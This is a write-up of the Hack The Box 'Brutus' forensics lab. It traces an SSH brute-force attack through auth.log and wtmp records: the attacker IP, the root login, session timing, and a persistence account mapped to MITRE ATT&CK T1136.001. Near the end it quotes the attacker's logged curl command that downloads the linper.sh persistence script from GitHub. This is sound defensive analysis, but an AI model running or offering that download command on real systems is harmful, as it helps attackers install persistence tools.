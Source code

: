 # Brutus

## Investigation process:

The first step is to analyze the provided assets.

By examining the `auth.log` file, I identified indicators of a brute-force attack. There were many failed login attempts within a short period, which led me to determine that the attacker's IP address is `65.2.161.68`:

![Invalid user admin](./assets/01-invalid-user-admin.png)

After reviewing more logs, I confirmed that the brute-force attack was successful and that the attacker gained access to the `root` account on the server:

![Root compromised](./assets/02-root-compromised.png)

By examining the timestamps, I noticed that the attacker manually entered the credentials at `06:32:44`, after obtaining them using an automated tool:

![Manually login](./assets/03-manually-login.png)

However, I needed to determine the exact time when the attacker had an interactive terminal connected, not just when the password was accepted. To do that, I checked the `wtmp` output by running `cat wtmp.out | grep 65.2.161.68` (this displays the content of `wtmp.out` and searches for lines containing the IP `65.2.161.68`):

![Timestamp found](./assets/04-timestamp-found.png)

Something important to note here is that I am located in the **UTC-5** timezone, which is a **5-hour difference** from the Hack The Box logs, which use **UTC**. Therefore, the correct answer is `2024-03-06 06:32:45`.

To determine the session number, I checked the line following the `open session` log entry and found that the session number is `37`:

![Session number](./assets/05-session-number.png)

To find the new user the attacker added as part of their persistence strategy, I searched for the keywords `useradd`, `usermod`, and `groupadd`, and I found:

![Add user and group](./assets/06-add-user-group.png)

The logs clearly show the creation of the user `cyberjunkie`.

Next, to determine the MITRE ATT&CK sub-technique ID used, I browsed to the [MITRE ATT&CK Framework website](https://attack.mitre.org) and navigated to **Matrices => Enterprise** to locate the ID of the tactic used by the attacker. I then looked under **Persistence** and selected **Create Account** (ID T1136). Under the sub-techniques of **Create Account**, I found **Local Account**, which is the technique being used, with the ID `T1136.001`.

![Create local account MITRE framework ID](./assets/07-create-local-account-mitre-framework-id.png)

Now, to check the time the attacker's first SSH session ended, I reviewed the `auth.log` and looked for `session 37`, as `37` is the session ID found earlier. The session was closed at `06:37:24`.

![Session ended](./assets/08-session-ended.png)

Looking a few lines after, we see two clear logs indicating the execution of `sudo` commands:

![Sudo commands](./assets/09-sudo-commands.png)

These logs show that the attacker downloaded a script from a GitHub repository. The command used was `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`. This indicates that the attacker attempted to deploy additional tools on the victim machine.

## Conclusion:

The analysis confirmed a successful brute-force attack against the server, resulting in a root access from the IP `65.2.161.68`. The attacker established an interactive session, created a new user to maintain persistence and attempted to deploy additional tools.